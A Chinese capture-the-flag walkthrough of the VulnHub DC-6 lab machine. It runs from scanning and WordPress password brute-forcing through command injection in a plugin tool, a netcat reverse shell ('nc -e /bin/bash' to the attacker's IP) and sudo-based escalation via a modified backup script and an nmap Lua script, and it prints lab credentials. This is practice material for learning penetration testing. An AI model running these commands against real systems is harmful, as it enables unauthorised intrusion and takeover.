



# 靶机地址

[DC: 6 ~ VulnHub](https://www.vulnhub.com/entry/dc-6,315/)

 

 

 

# 题目提示

 

 

 

 

# 信息收集

 

## 主机探活

```
arp-sacn -l --interface=eth0
```

 

确定目标ip地址

192.168.6.30

 

 

## 扫描目标主机开放端口

```
nmap -sS -Pn -p- -sV 192.168.6.30
```

 

 

目标主机开放了

22/tcp  ssh

80/tcp  http  

 

 

访问192.168.6.30

 

 

 

 

nmap加入-A参数扫描目标主机80端口

```
nmap -p80 -A 192.168.6.30
```

 

 

 

重定向到 http://wordy/

 

添加本机hosts解析：

kali:

mousepad /etc/hosts

 

 

 

windows：

 

 

 

重新访问，成功

 

 

 

CMS：wordPress

 

 

 

## dirsearch 扫描目录

```
dirsearch -u 192.168.6.30
```

 

 

 

 

 

 

爆破出来登录页面，无敏感信息

访问登录页面

 

 

 

 

 

## 使用wpscan爆破出用户名信息

```
wpscan --url http://wordy/ -e u
```

 

 

 

 

共找到五个用户

admin

jens

graham

mark

sarah

 

 

根据题目提示

 

 

 

使用/usr/share/wordlists/rockyou.txt爆破

rockyou初始为压缩包，记得解压后使用

 

首先创建一个users字典

写入爆破出的用户名

 

 

 

将rockyou.txt保存到桌面方便使用

cp /usr/share/wordlists/rockyou.txt rockyou.txt

 

 

 

 

## 然后使用wpscan进行爆破

```
wpscan --url http://wordy/ -U users.txt -P rockyou.txt
```

 


```
mark/helpdesk01
```

成功登录后台

 

 

 

 

在Activity monitor--Tools页面下存在一个工具

将ip转为十进制，可能存在rce

 

 

 

 

 

 

尝试执行

```
127.0.0.1||whoami
```

时发现存在长度限制

（可以尝试修改html源码，也可以选择bp抓包修改）

 

 

 

bp抓包

 

修改命令后放包

 

 

 

最终发现，convert无法利用，lookup可利用

执行

```
whoami
```

convert

 

 

 

 

lookup

 

 

 

 

 

尝试反弹shell

执行

```
127.0.0.1||which nc
```

确定目标主机是否有nc

 

 

 

得到回显

 

## 利用nc反弹shell

本地：

```
nc -lvvp 8989
```

 

 

 

目标主机：

```
127.0.0.1||nc -e /bin/bash 192.168.6.5 8989
```

 

## 成功反弹shell

 

 

 

 

## python转换终端

```
python -c "import pty;pty.spawn('/bin/bash')"
```

 

 

 

 

 

suid提权

查找可利用文件

```
find / -perm -u=st -type f 2>/dev/null
```

 

 

无发现

 

 

sudo -l查找可执行sudo

 

 

 

需要密码

进入home文件夹

 

共四个用户，进入mark目录下，发现有一个things-to-do.txt

 

 

 

 

得到graham的密码

GSo7isUM1D4

成功切换为graham用户

 

 

再次执行sudo -l

 

 

 

发现gramham可以在不需要密码的情况下执行/home/jens/backups.sh

 

查看该脚本内容

 

 

 

是对web进行打包

 

往backups.sh中写入"/bin/bash"（给jens获取一个shell权限）

```
echo "/bin/bash" >> backups.sh
```

 

 

 

 

以jens身份执行该文件

```
sudo -u jens ./backups.sh
```

 

 

再次执行sudo -l

发现jens可以在无密码的情况下执行nmap

 

 

 

写入一个getshell脚本，并让nmap运行

```
echo 'os.execute("/bin/bash")' >> getshell
```

 

 

 

 

```
sudo nmap --script=getshell
```

 

 

 

成功取得root权限

取得flag

 

 

 

 